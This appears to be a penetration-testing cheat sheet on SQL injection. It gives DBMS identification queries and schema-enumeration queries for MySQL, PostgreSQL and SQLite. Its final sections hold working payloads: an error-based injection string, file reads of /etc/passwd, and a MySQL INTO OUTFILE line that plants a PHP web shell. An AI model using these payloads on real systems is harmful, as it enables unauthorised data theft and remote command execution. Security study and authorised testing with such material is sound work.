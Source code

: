 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL           | SQLite              | MySQL               |
| -------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`         | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`           | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`            | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`         | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)`  | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`        | *Unknown*           | `SLEEP(4)`          |
| `SIMILAR TO`, `~`    | `REGEXP`, `GLOB`    | `REGEXP`            |

### Testing & Documentation

- [PostgreSQL - Online](https://onecompiler.com/postgresql/) - [Docs](https://www.postgresql.org/docs/)
- [MySQL - Online](https://onecompiler.com/mysql/) - [Docs](https://dev.mysql.com/doc/refman/8.0/en/)
- [MariaDB - Online](https://onecompiler.com/mariadb/)
- [Microsoft SQL Server - Online](https://onecompiler.com/sqlserver)
- [Oracle - Online](https://livesql.oracle.com/)
- SQLite3: run the command `sqlite3` - [Docs](https://www.sqlite.org/docs.html)

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
